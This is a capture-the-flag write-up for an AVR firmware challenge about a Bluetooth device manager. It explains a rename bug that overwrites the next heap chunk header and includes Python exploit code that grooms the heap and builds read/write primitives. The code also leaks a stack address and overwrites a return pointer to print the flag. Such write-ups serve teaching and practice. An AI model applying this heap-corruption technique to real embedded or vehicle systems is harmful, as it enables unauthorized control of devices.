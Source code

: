 ## Bluetooth Device Manager (200)

### Description

You have a basic car model and would like to enable some extra features? That navigation with traffic should be neat. Right. It is expensive, you know. Or not, if you can access the control interface. Try bluetooth this time. We think, it could be used for purposes other than making calls and playing MP3s.

### Write-up

Another one exploitation challenge, "**such heap, much pr0!**" strings in data section give a little hint that heap exploitation will be involved.

Firmware implements simple menu with creating, editing and deleting of objects, which are dynamically allocated on heap. If we will look closer to *"Modify stored device"* code you can notice that during rename new object isn't allocated. Instead previously allocated null terminated string is reused with previous size limit. When I played with inputs I noticed that we can overwrite string termination byte and one byte next after device name, which is *malloc* header of next chunk, things becomes more interesting.

In [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can find how avr allocator is working, it's quite simple comparing to allocator for x86.

Our goal here is to allocate structure with pointers to area that we can control and we can do it by manipulating chunk sizes, as the result we will have write and read primitive.

When we create new device 3 malloc call is invoked, one for device structure (0xb size) and two calls for *key* and *name* fields with variable size. Our strategy is to create two devices (*dev0* and *dev1*) with shortest *key* and *name* fields, then free *dev0* and create new *dev2* with *key* longer than previous, in that case *dev0* freed *key* chunk won't fit new longer *key* and new chunk will be allocated right next to *dev1* *key*. Next using "buggy" *modify* option we increase size of *dev1* *key* chunk to 0xb (device structure size), as the result this chunk will overlap with *dev2* *key* chunk, which content can modified. Now we free *dev1* and create new *dev3*, as our prediction *dev3* struct will be allocated on crafted overlapped chunk, *name* and *key* pointer will at our control which gives us read and write primitive:

```python
    new_dev(tty,"a","b")             # dev 0
    new_dev(tty,"c","d")             # dev 1
    del_dev(tty,0)                   # free dev 0
    new_dev(tty,"e","ffffffffffff")  # dev2 with key chunk in the end
    
    edit_dev(tty,1,"z0\x0b","a")     # encrease dev1 key chunk
    del_dev(tty,1)                   # free dev 1
    new_dev(tty,"g","h")             # dev3 with overlapped chunk
```

Few things left to get the flag, to make proper jump we need to know dynamic stack frame size for main function, luckily it's just stored at data section by 0x2192 address. Other thing is that we need to replace 0xDEADBEEF to 0xBAADF00D at 0x2000:

```python
    edit_dev(tty,2,"x","\x01\x01\x01"+"\x01\x20") # set ptr to 0x2001
    edit_dev(tty,2,"x","\x01\x01\x01")            # set ptrl to 0x00 via null terminator
    edit_dev(tty,3,"g",struct.pack("I",0xBAADF00D)+"\xa0\x08\x40\x06\x04\x08\x04\x20") #write 0xbaadf00d and serial config to avoid corruption
    print repr(print_all(tty))
    
    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",0x2192))  # set ptr to 0x2192
    buff=print_all(tty)                           # leak leak stack frame address
    
    dl="key: "
    buff=buff[buff.find(dl)+len(dl):]
    sp=buff[buff.find(dl)+len(dl):][:2]
    sp=struct.unpack("H",sp)[0]                  # extracting stack frame address
    print "stack frame base:", hex(sp)

    edit_dev(tty,2,"x","\x01\x01\x01"+struct.pack("H",sp-0x2))
    print edit_dev(tty,3,"g",struct.pack(">H",0x182)) # set return pointer to 0x182, big endian! - flag print
```

After everything is done properly you will be rewarded with next 200 points.
Full script can be found among files in github repository.
